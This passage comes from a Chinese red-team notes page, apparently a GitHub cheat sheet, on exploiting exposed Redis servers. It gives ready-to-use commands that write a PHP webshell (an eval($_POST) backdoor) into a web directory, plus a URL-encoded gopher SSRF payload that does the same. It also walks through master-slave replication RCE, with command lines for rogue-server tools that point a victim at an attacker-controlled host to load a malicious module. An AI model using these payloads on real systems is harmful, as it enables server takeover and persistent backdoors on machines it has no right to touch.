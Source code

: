     如果报错 `(error) ERR Changing directory: No such file or directory` 可能是因为 root 从来没有登录过

    **往 web 物理路径写 webshell**

    当 redis 权限不高时,并且服务器开着 web 服务,在 redis 有 web 目录写权限时,可以尝试往 web 路径写 webshell,执行以下命令
    ```bash
    config set dir /var/www/html/
    config set dbfilename shell.php
    set x "<?php phpinfo();?>"
    save
    ```
    即可将 shell 写入 web 目录(web 目录根据实际情况)

    这里的第三步写入 webshell 的时候，也可以使用
    ```bash
    set xxx "\r\n\r\n<?php eval($_POST[whoami]);?>\r\n\r\n"
    ```

    `\r\n\r\n` 代表换行，用 redis 写入文件的话会自带一些版本信息，如果不换行的话可能会导致无法执行, 可见下图

    ![](../../../../assets/img/security/RedTeam/软件服务安全/CS-Exploits/1.png)

    gopher payload
    ```
    gopher://127.0.0.1:6379/_*1%0d%0a\$8%0d%0aflushall%0d%0a*3%0d%0a\$3%0d%0aset%0d%0a\$1%0d%0ax%0d%0a\$25%0d%0a%3C%3Fphp%20%40eval(%24_POST%5Bc%5D)%3B%3F%3E%0d%0a*4%0d%0a\$6%0d%0aconfig%0d%0a\$3%0d%0aset%0d%0a\$3%0d%0adir%0d%0a\$13%0d%0a/var/www/html%0d%0a*4%0d%0a\$6%0d%0aconfig%0d%0a\$3%0d%0aset%0d%0a\$10%0d%0adbfilename%0d%0a\$9%0d%0ashell.php%0d%0a*1%0d%0a\$4%0d%0asave%0d%0a
    ```

**主从复制远程代码执行漏洞**
- 简介

    先创建一个恶意的 Redis 服务器作为 Redis 主机 (master)，该 Redis 主机能够回应其他连接他的 Redis 从机的响应。有了恶意的 Redis 主机之后，就会远程连接目标 Redis 服务器，通过 slaveof 命令将目标 Redis 服务器设置为我们恶意 Redis 的 Redis 从机(slaver)。然后将恶意 Redis 主机上的 exp 同步到 Reids 主机上，并将 dbfilename 设置为 exp.so。最后再控制 Redis 从机（slaver）加载模块执行系统命令即可

    补充 : redis 4.0.0 版本开始才支持 module load

- 搭建环境
    ```bash
    yum install -y tcl
    wget download.redis.io/releases/redis-4.0.11.tar.gz
    tar zxf redis-4.0.11.tar.gz
    cd redis-4.0.11
    make PREFIX=/usr/local/redis install

    /usr/local/redis/bin/redis-server

    参考 https://mp.weixin.qq.com/s/MSWLqzyNnliX1G7TRYAwVw
    ```

- 相关文章
    - [Redis 基于主从复制的 RCE 利用方式](https://paper.seebug.org/975/)

- POC | Payload | exp
    - [n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server) - 该工具无法对 Redis 密码进行 Redis 认证，也就是说该工具只能在目标存在 Redis 未授权访问漏洞时使用。如果存在密码是不能使用的
        ```bash
        python3 redis-rogue-server.py --rhost rhost --lhost lhost
        ```
    - [Ridter/redis-rce](https://github.com/Ridter/redis-rce)
        ```bash
        python3 redis-rce.py -r rhost -L lhost -f exp.so -a password
        ```
    - [n0b0dyCN/RedisModules-ExecuteCommand](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand)
    - [0671/RedisModules-ExecuteCommand-for-Windows](https://github.com/0671/RedisModules-ExecuteCommand-for-Windows)
    - [LoRexxar/redis-rogue-server](https://github.com/LoRexxar/redis-rogue-server)